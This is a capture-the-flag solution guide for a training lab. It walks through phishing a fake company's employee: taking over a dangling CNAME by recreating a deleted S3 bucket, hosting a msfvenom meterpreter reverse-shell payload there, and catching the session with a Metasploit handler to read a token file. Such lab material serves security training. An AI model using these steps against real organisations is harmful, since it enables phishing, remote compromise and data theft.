# Luring the Catch

*Solution Guide*

## Overview

There are two components to *Luring the Catch*. First, competitors must identify a way to get an end user to click a phishing link and download a malicious file. The goal is to gain access to the end user’s computers. Once that access is obtained, the second component has competitors locate a token in a text file.

## Question 1

*What is the 8-digit hexadecimal code you received from the grading check (challenge.us) after your phishing email was successfully sent?*

Sending a successful phishing email in this challenge requires players to successfully complete  several steps which are broken out by sections below. The steps are:

1.	Complete the initial OSINT (Open-source Intelligence)
2.	Examine the broken image URL
3.	Create a payload
4.	Create an S3 (Simple Storage Bucket) bucket
5.	Set up a Metasploit listener
6.	Send the phishing email
7.	Initiate user action and receive the token

### 1. Complete the initial OSINT

The challenge instructions tell you to examine the website `fakefish.co` for clues to help you execute a successful phishing attack.

1. Login to the `kali` virtual machine using the credentials: **username:**  `user` | **password:** `tartans`.
2. Open Firefox and navigate to `https://fakefish.co` .
3. On the webpage is a border around the text "*Close-up photograph showing scale detail of our hyper realistic fish model.*" This appears to be a description for an image (alternative text). It also appears to be a broken image, since no image is displayed. Right-click on the webpage and select **Inspect**.
4. In the Inspector we see that an image failed to load. The source (`src`) of the image is `https://lure.fakefish.co/bigmouth.png`. Note this URL for further research. Close the Inspector.



5. Continue to review the website. Under **Contact Us** is the email address: `william@fakefish.co`. This is the only email address on the website. Note this email as it will be a good initial point of contact to send the phishing email to.
6. The bottom footer on the website reads: *Created with Ubuntu Linux - The Best OS There Is!*. Note this, because it suggests the user who created this website uses Ubuntu Linux -- any payloads crafted should target that operating system.

### 2. Examine the broken image URL

1. In a terminal window, enter: `dig lure.fakefish.co`. In the returned results you see that `lure.fakefish.co` is a DNS CNAME record for `static.api.merch.codes`.



2. Open Firefox and in the navigation bar enter: `https://static.api.merch.codes`. An Error message is displayed showing access is denied to a bucket named `static`.



3. Open a new browser tab and in the navigation bar enter: `https://api.merch.codes`. The URL will redirect you to `https://s3.merch.codes` which is a MinIO Object Store. It appears that the image on the website was being served from an S3 bucket which is no longer available.

>**Key Point!**  Although the S3 bucket `static`  has been deleted, the CNAME record `lure.fakefish.co` still points to it. This is known as a *dangling CNAME record*. If you create a new publicly accessible S3 bucket named "static", you could upload files to the S3 bucket and have them be accessible using the `lure.fakefish.co` URL. In the challenge instructions you are told that users at Fake Fish Co. will not click on any link unless it has "fakefish.co" in the URL. This dangling CNAME record is how you can get them to click on your link.

### 3. Create a payload

1. On the `kali` system, run the command `ip address` to determine the IP address of your workstation. You will use this as the `LHOST` in the payload configuration.
2. In a terminal window, enter the following command to create a Metasploit payload. Make sure to replace the LHOST IP address with the address of your `kali` workstation.

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.5.5.60 LPORT=8080 -f elf > payload.elf
```

### 4. Create an S3 bucket

1. Open Firefox and navigate to `https://s3.merch.codes`.
2. Login using the credentials: **username:**  `user` | **password:** `tartans@1`.
3. In the left-hand navigation menu, click **Buckets**.



4. Click the **Create Bucket +** button.



5. Name the bucket "static" and click **Create Bucket**.



6. Click the newly created "static" bucket to open it.
7. Under **Access Policy** click **Private**.



8. The Change Access Policy window opens with a dropdown menu. Change this to **Public** and click **Set**.



9. Click the **Browse Bucket** icon.



10. Click the **Upload** button and then **Upload File**.
11. Select the `payload.elf` file you created, confirm it is uploaded and visible in the bucket.

### 5. Set up a Metasploit listener

1. In a terminal window, enter: `msfconsole`.
2. Once the Metasploit command line interface has loaded, enter the following parameters making sure to replace the LHOST IP address with the address of your `kali` workstation.


```bash
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 10.5.5.60
set LPORT 8080
set ExitOnSession false
exploit -j
```



### 6. Send the phishing email

1. Open Firefox and navigate to: `mail.merch.codes`.
2. Login using the credentials: **username:** `user@merch.codes` | **password:** `tartans`.
3. Click **Compose**.
4. In the **To** section, enter `william@fakefish.co`. Recall that this is the email address you located on the website
5. In the **Subject** section, enter an appropriate subject for a phishing email (i.e., *Past Due Invoice*).
6. In the body of the email, enter text aligning with your Subject.
7. Highlight the text in the body you want to link, and then click **Insert/Edit Link** button.
8. In the **Insert/Edit Link** window, type the URL `https://lure.fakefish.co/payload.elf` and **Save**.
9. Click **Send** to send the email.

### 7. Initiate user action and receive the token

1. Open Firefox and navigate to: `challenge.us`.
2. Click **Grade Challenge**.

If you have completed the steps above correctly you will receive a message saying that the user clicked on your link. You will also receive a token which is the answer to Question 1.

*Note it may take up to one minute for the grading to complete.*

## Question 2

*What is the 8-digit hexadecimal token you found after gaining access to the targeted user's machine?*

1. If your payload was configured correctly, you should see a notice in your Metasploit listener that a session has been opened. Enter `sessions -i 1` to interact with the session.



2. At the `meterpreter` command line, enter `cd Documents`.
3. Type `ls` to list the contents of the Documents directory.
4. Type `cat BigMouth.txt` and press **Enter**.
5. The contents of the `BigMouth.txt` file are displayed. One of the lines reads "Token:". The content that follows is the answer to Question 2!

